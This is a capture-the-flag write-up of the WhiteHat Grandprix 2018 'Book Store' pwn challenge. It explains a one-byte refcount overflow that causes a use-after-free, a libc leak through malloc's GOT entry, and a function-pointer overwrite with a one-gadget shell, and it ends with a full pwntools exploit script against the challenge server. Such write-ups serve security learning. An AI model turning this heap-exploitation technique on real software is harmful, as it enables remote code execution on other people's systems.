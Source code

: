 # Writeup for pwn 02 - Book Store - WhiteHat Grandprix 2018 Qualifiers

## The Challenge

We are given a "book store" service, which allows us to add, edit, remove and print out books.

The book structure is as follows:

```C
typedef struct book{
    struct book* nextBook;
    void* pBrief;
    char title[0x20];
    char book_idx;
    char refcount;
    void* print_func;
};
```
The `pBrief` member is a pointer to a `malloc()`d memory region (size is dependant on the user).

When adding a book, we also have the option to make a reference from that book to other books, and the book that **receives** the reference gets it's `refcount` field incremented.
This can be seen in the following code-snippet inside the `add_book()` function:

```C
unsigned __int64 add_book()
{
   ...
   ...
    if ( reference_book_title )
    {
      current_book = list_of_books;
      running_idx = 0;
      while ( current_book )
      {
        v0 = (signed __int64)current_book->title;
        if ( !strncmp(&reference_book_title, current_book->title, 0x20uLL) )
        {
          new_book->book_idx = running_idx;
          ++current_book->refcount;
          break;
        }
        ++running_idx;
        current_book = (struct book *)current_book->next_book;
      }
    }
    ...
    ...
 }
 ```

Also, when adding a book, we have the option to make it a best-selling book. There is a global `best_book` variable that is stored in the data segment, and is pointing to the best selling book. 

This global `best_book` also increments the book's `refcount` due to it also pointing to the book.

## The Vulnerability

As seen above, the `refcount` member is **only a BYTE in size**, also, there are no checks whatsoever whether it overflows.

When adding a **best selling** book, the program checks if a best-selling book already exists, and if so, it decrements the original book's `refcount` member, and checks if it's 0, if it is, it calls `free()` to free the `pBrief` memory, and the book struct itself afterwards, this can be seen in the following code snippet (inside the function `best_selling()`):

```C
book *__fastcall best_selling(book *a1)
{
...
  if ( best_book )
  {
    --best_book->refcount;
    best_book->print_func = (__int64)print_normal;
    if ( !best_book->refcount )
    {
      free((void *)best_book->pBrief);
      free(best_book);
    }
  }
 ...
 ...
}
```

If we can get the `refcount` of a best-selling book to overflow to be **1** and then *change a best-selling book*, then that book would get freed (also it's `pBrief` member), but would not be removed from the linked list that exists due to the `book* next_book` member in the `book` struct.

This could theoretically grant us a UAF primitive, which is easily exploitable due to the fact that the size of `pBrief` is controlled by us, so we can make it to be the same size as the `book` struct, and achieve a perfect overlap!

## The Leak

To achieve a reliable exploit, we also need an info-leak. This info-leak is very trivial due to the UAF primitive, and the fact that there is a function that prints the details of the books!

To get an info-leak we just need to get a UAF-ed book `pBrief` to overlap with a newly created `book` struct. If the `pBrief` has the same size as the struct, we can just leak the entire `book` struct! Also, we can modify the `pBrief` of the newly created `book` to make it point to `malloc()`'s GOT entry, and then leak the address of `malloc()` in libc when we print the data of the UAF-ed book!

## The Exploit

After leaking, we can easily modify the `print_func` function pointer using the UAF-ed book's `pBrief`, to make it point to a shell one gadget and then easily pop a shell.

Modifying an in-use book's `print_func` is as easy as changing the `pBrief` of the UAF-ed book to just match what we want :)

After doing so, when we trigger the `print_func` for that same book, it will execute `system("/bin/sh")` :D

Basically - once we have that UAF, leaking and exploiting is as easy as modifying the fields of an in-use `book` struct, using the UAF-ed `pBrief` :)

## Exploit Code

```Python
from pwn import *

r = remote("pwn02.grandprix.whitehatvn.com", 8005)

def rc():
    r.recvuntil("choice:")

rc()

def addBook(title, briefSize, brief,referenceTitle="",bestSelling=False):
    r.sendline("1")
    r.recvuntil("Title:")
    r.sendline(title)
    r.recvuntil("size:")
    r.sendline(str(briefSize))
    r.recvuntil("brief:")
    r.sendline(brief)
    r.recvuntil("title:")
    r.sendline(referenceTitle)
    r.recvuntil("(Y/N)")
    if bestSelling:
        r.sendline("Y")
    else:
        r.sendline("N")
    rc()

def removeBook(title):
    r.sendline("3")
    r.recvuntil("Title:")
    r.sendline(title)
    rc()

addBook("first", 10, "CCCC","CCCC", bestSelling=False)

addBook("AAAA",0x3a,"A"*0x30,"AAAA",bestSelling=True)

for m in range(255):
    addBook("abc"+"A"*m,10,"BBBB","AAAA", bestSelling=False)

addBook("newBook", 10, "newBook", "newBook", bestSelling=True)

removeBook("first")


MALLOCGOT = 0x601fd0
ONE_GADGET = 0x10a38c

addBook("newBook2", 58, "\x00"*8+p64(MALLOCGOT)+"F"*8, "newBook2", bestSelling=False)

r.sendline("4")

r.recvuntil("FFFFFFFF|")

leak = r.recvline()

mallocLeak = int(leak.strip()[::-1][4:][:6].encode('hex'),16)
rc()

log.info("malloc leak @ 0x%x" % mallocLeak)

LibcBase = mallocLeak - 0x97070
log.info("libc base @ 0x%x" % LibcBase)

nextPayload = "AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFAA" + p64(LibcBase+ONE_GADGET)

r.sendline("2")

r.recvuntil("title:")
r.sendline("newBook2")

r.recvuntil("title:")
r.sendline("pwn")

r.recvuntil("size:")
r.sendline("58")

r.recvuntil("brief:")

r.sendline(nextPayload)

r.interactive()
```
